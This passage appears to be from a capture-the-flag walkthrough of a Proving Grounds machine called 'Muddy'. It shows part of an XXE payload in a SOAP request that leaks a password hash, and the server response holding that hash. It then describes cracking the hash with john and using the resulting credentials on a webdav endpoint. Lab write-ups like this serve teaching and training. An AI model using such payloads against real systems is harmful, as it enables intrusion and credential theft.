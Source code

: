 ```text
	xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
	xmlns:xsd="http://www.w3.org/2001/XMLSchema"
	xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"
	xmlns:urn="urn:HelloService">
	<soapenv:Header/>
	<soapenv:Body>
		<urn:checkout soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
			<uid xsi:type="xsd:string">&passwd;</uid>
		</urn:checkout>
	</soapenv:Body>
</soapenv:Envelope>
```

**Response**

```text
HTTP/1.0 200 OK
Date: Mon, 09 Oct 2023 02:21:57 GMT
Server: WSGIServer/0.1 Python/2.7.16
Content-Type: text/xml; charset=UTF-8
Content-Length: 484


<?xml version="1.0" encoding="UTF-8"?>
<SOAP-ENV:Envelope xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ns="urn:muddy" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
  <SOAP-ENV:Body SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
    <ns:checkoutResponse>
      <result>Serial number: administrant:$apr1$GUG1OnCu$uiSLaAQojCm14lPMwISDi0</result>
    </ns:checkoutResponse>
  </SOAP-ENV:Body>
</SOAP-ENV:Envelope>
```

Crack the hash `administrant:$apr1$GUG1OnCu$uiSLaAQojCm14lPMwISDi0` using john.

Cracked credentials `administrant:sleepless`. Use the credentials to login to `webdav` endpoint.

![img](/assets/images/CTF/Proving_Grounds/Muddy/webdav.png)
